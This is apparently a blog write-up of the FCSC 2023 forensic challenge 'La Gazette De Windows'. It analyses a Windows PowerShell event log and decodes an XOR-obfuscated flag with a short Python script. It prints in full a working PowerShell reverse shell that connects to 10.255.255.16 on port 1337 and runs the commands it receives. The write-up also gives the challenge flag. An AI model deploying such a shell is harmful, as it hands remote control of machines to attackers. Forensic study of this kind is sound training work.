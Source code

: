 ```yaml
---
title: "[FCSC 2023] - La Gazette De Windows"
date: 2023-04-24
author: me
categories: [writeups]
tags: ["Forensic", "FCSC"]
---
```


<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.2/css/all.min.css">
<link rel="stylesheet" href="/assets/css/lil-bootstrap.css">
<script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>

<br>

*Il semblerait qu'un utilisateur exécute des scripts Powershell suspects sur sa machine. Heureusement cette machine est journalisée et nous avons pu récupérer le journal d'évènements Powershell. Retrouvez ce qui a été envoyé à l'attaquant.*


<br>

_____________________________________________________

## Given files 

We are given an evtx Windows log file:

![0](/images/gazette/step1.png)

## Recon

![0](/images/gazette/step2.png)

By looking at each event, we can notice an interesting powershell script on the fifth event

```powershell

do {
    Start-Sleep -Seconds 1
     try{
        $TCPClient = New-Object Net.Sockets.TCPClient('10.255.255.16', 1337)
    } catch {}
} until ($TCPClient.Connected)
$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)
function WriteToStream ($String) {
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}
$l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D
$s = ""
for ($i = 0; $i -lt 72; $i++) {
    $s += [char]([int]$l[$i] -bxor $i)
}
WriteToStream $s
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }
    WriteToStream ($Output)
}
$StreamWriter.Close()

```

We can see a very long hexa string which may be the flag. Each character is XORed with the i-th value (from 0 to 71).<br>
We know that the main properties of XOR are associativity and commutativity, so we can write the following:
- A ⊕ B = C
- A ⊕ C = B
- B ⊕ C = A

So in this case, if we admit that the `$l` is our XORed flag, we have:
- ord(F) ⊕ 0 = 0x46
- ord(C) ⊕ 1 = 0x42
- ord(S) ⊕ 2 = 0x51
- ord(C) ⊕ 3 = 0x40
- ord({) ⊕ 4 = 0x7F
- ...

>In python, the `ord()` function returns an integer representing the Unicode character.
{: .prompt-tip }

So we just have to reverse this, in order to get the flag.

## Exploit

```python
l = [0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D]
flag = ""

for i in range(len(l)):
	flag += chr(l[i] ^ i)

print(flag)
```

> 🚩`FCSC{98c98d98e5a546dcf6b1ea6e47602972ea1ce9ad7262464604753c4f79b3abd3}`